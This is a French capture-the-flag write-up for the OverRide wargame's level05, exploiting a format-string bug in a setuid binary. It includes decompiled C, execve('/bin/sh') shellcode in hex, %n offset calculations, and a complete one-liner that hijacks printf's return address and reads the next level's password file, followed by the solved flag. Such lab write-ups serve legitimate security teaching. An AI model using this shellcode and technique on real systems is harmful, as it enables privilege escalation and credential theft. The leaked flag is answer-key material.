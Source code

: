 # OverRide : [level05]

### Observation :
En arrivant sur le level02 on trouve un exécutable nommé level05.\
Quand nous essayons de le lancer cela nous permet d'écrire une chaîne de caractères qui nous sera renvoyé. \
Regardons donc avec gdb ou un decompilateur.

---

#### Source décompilée:
```c
int main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+28h] [ebp-70h] BYREF
  unsigned int i; // [esp+8Ch] [ebp-Ch]

  i = 0;
  fgets(s, 100, stdin);
  for ( i = 0; i < strlen(s); ++i )
  {
    if ( s[i] > 64 && s[i] <= 90 )
      s[i] ^= 0x20u;
  }
  printf(s);
  exit(0);
}
```

#### Détails du profil:
```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE 
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
```

#### Détails du programme:
```bash
-rwsr-s---+ 1 level06 users   5176 Sep 10  2016 level05
```

#### Fonctions:

| Nom | Description |
| --- | ----------- |
| `<main>` | La fonction main permet d'afficher une string entrée en stdin dans un `printf` en faisant un `xor` sur le 6eme bit (32) de tous les caractères qui se trouve entre `65 et 90`, en gros cela transforme les majuscules en minuscules. |


#### Conclusions:
Nous savons que nous pouvons injecter du code avec `printf` a la condition de ne pas avoir de majuscule dans notre stdin. \
Nous allons devoir injecter un shellcode car il n'y a pas de fonction dans le programme qui nous permet d'y accéder directement.


----
Résolution:
----
Pour résoudre cet exercice, il ne faut pas placer notre `shellcode` dans notre stdin, car il contient des caracteres entre `65 && 90`, il seront donc transformer... \
Nous allons le placer dans notre environnement, car nous savons que le programme y a accès, le problème avec cette solution, est que la stack se déplace en fonction du nombre de choses dans notre environnement. \
Pour se faire nous allons donc complètement vider la stack, non pas avec `env -i` car cela ne la vide pas complètement et donc se serai très compliqué à debuger dans gdb, mais avec une autre commande `$(unset $(env | cut -d= -f1); <cmd>)`. \
Ensuite, il nous faut trouver l'adresse à laquelle nous souhaitons aller (adresse de notre shellcode dans l'env), ainsi que l'adresse depuis laquelle nous voulons `jump` (retour de `printf` par exemple ou depuis la fonction exit).

> ATTENTION Toujours faire les tests juste avec notre shellcode comme environnement rien d'autre

Dès que nous avons trouvé l'adresse de notre `jump` (le retour de `printf` dans notre cas) = `0xffffdd5c` \
Il nous faut trouver l'adresse de notre `shellcode` dans l'environemennt, pour ça, on a un code `main.c`, puis on le test sans environnement
```sh
echo $(echo $(unset $(env | cut -d= -f1); export f=$(/usr/bin/printf '\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80') ;  ./a.out))
```
> Cela nous donne une idée d'où est placer l'environnement, ça ne sera pas forcément exactement ici dans notre cas, car il y a beaucoup de paramètre à prendre en compte...

Apres avoir fait les calculs d'offset, sans environnement nous obtenons: `0xffffdfa5` comme adresse de notre `shellcode`. \
Il ne nous suffit plus qu'à injecter grâce au `%n` de `printf` le bon nombre de caractères à l'adresse de retour de notre `printf` pour pouvoir la remplacer par l'adresse de notre `shellcode` pour qu'il soit ainsi exécuté.
- 0xa5 = 165 en decimal           donc 165 caracteres avant le %n
- 0xdf = 223 donc 223 - 165 = 58  donc 58 caracteres avant le %n
- 0xff = 255 donc 255 - 223 = 32  donc 32 caracteres avant le %n
- 0xff = 255 donc 255 - 255 = 0   donc 0 caracteres avant le %n

> Nous avons ainsi notre valeur de retour de `printf` qui pointe vers notre `shellcode`, nous n'avons plus qu'à lui demander le mot de passe de l'utilisateur level06.

#### Injection:
```asm
# SHELLCODE
# La fonction injectée appelle <system> avec '/bin/sh' en paramètre:

0:  6a 0b                   	push   0xb
2:  58                      	pop    eax
3:  31 f6                   	xor    esi,esi
5:  56                      	push   esi
6:  68 2f 2f 73 68          	push   0x68732f2f
b:  68 2f 62 69 6e          	push   0x6e69622f
10: 89 e3                   	mov    ebx,esp
12: 31 c9                   	xor    ecx,ecx
14: 89 ca                   	mov    edx,ecx
16: cd 80                   	int    0x80
```


#### Commande:
```bash
echo $(echo $(unset $(env | cut -d= -f1); export f=$(/usr/bin/printf '\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80'); (/usr/bin/python -c "print('\xff\xff\xdd\x5c'[::-1] + 'A'*4 + '\xff\xff\xdd\x5d'[::-1] + 'A'*4 + '\xff\xff\xdd\x5e'[::-1] + '\xff\xff\xdd\x5f'[::-1] + '%9.x'*8+'%69.c' + '%n' + '%58.c' + '%n' + '%32.c' + '%n' + '%n')"; /bin/echo '/bin/cat /home/users/level06/.pass') | /home/users/level05/level05))
```

#### Flag: `h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq`
